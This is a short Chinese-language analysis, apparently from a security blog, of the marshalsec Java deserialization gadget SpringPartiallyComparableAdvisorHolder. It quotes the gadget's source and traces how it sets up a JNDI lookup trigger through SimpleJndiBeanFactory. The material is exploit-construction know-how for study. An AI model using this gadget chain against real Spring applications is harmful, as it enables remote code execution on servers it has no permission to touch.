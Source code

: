 <div align=center><img src="./images/6.png"></div>

## SpringPartiallyComparableAdvisorHolder
### 构造分析
 - 先来看看`marshalsec`中给出的`SpringPartiallyComparableAdvisorHolder.java`, 这里将传入的`jndiUrl`传入`SpringUtil#makeJNDITrigger`方法.

```java
public interface SpringPartiallyComparableAdvisorHolder extends Gadget {

    @Primary
    @Args ( minArgs = 1, args = {
        "jndiUrl"
    }, defaultArgs = {
        MarshallerBase.defaultJNDIUrl
    } )
    default Object makePartiallyComparableAdvisorHolder ( UtilFactory uf, String[] args ) throws Exception {
        String jndiUrl = args[ 0 ];
        BeanFactory bf = SpringUtil.makeJNDITrigger(jndiUrl);
        return SpringUtil.makeBeanFactoryTriggerPCAH(uf, jndiUrl, bf);
    }
}
```

 - 跟进`SpringUtil#makeJNDITrigger`方法, 会继续调用`SimpleJndiBeanFactory#setShareableResources`方法, 该方法会将`jndiUrl`转换成一个`list`对象, 然后调用`this.shareableResources.addAll`方法对`shareableResources`的`HashSet`进行`addAll`操作. 接着获取`bf`, 设置`logger`的值为`NoOpLog`实例化对象, 用同样的方式对获取的`bf.getJndiTemplate()`进行操作. 最后返回`bf`的`BeanFactory`实例化对象.
